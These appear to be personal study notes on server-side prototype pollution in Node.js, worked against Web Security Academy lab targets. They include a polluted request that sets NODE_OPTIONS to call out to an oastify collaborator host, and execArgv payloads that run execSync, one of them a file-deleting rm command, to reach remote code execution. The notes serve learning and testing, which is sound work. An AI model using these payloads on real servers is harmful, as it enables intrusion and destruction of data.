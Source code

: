 ### Identifying a vulnerable request

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

```http
POST /my-account/change-address HTTP/2
Host: 0ac900b5045ce47b8100e0a9006f00c7.web-security-academy.net

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKs","sessionId":"bAIJlRdG9dLFl39CLXBTLsZ5qRwAjxB4","__proto__":{"shell":"node","NODE_OPTIONS":"--inspect=68c9em67d9tkezyaarw94l0r9if930rp.oastify.com\"\".oastify\"\".com"}}


200 OK
{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UKs","__prototype__":{"space":"         ","foo":"bar"},"isAdmin":true,"foo":"bar","shell":"node","NODE_OPTIONS":"--inspect=68c9em67d9tkezyaarw94l0r9if930rp.oastify.com\"\".oastify\"\".com"}
```

### Remote code execution via `child_process.fork()`

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property. This is an array of strings containing **command-line arguments** that should be used when spawning the child process. **If it's left undefined by the developers**, this potentially also means it can be controlled via prototype pollution.

```json
"execArgv": [
    "--eval=require('<module>')"
]
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and [Command Injection](Command%20Injection.md) sinks, you can potentially escalate prototype pollution to gain full [Remote Code Execution (RCE)](Remote%20Code%20Execution%20(RCE).md) capability on the server.

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

### Remote code execution via already defined `child_process.execSync()`

In some cases, the application may invoke `child_process.execSync()` of its own accord in order to execute system commands. In this case we can try to pollute options used by this method.
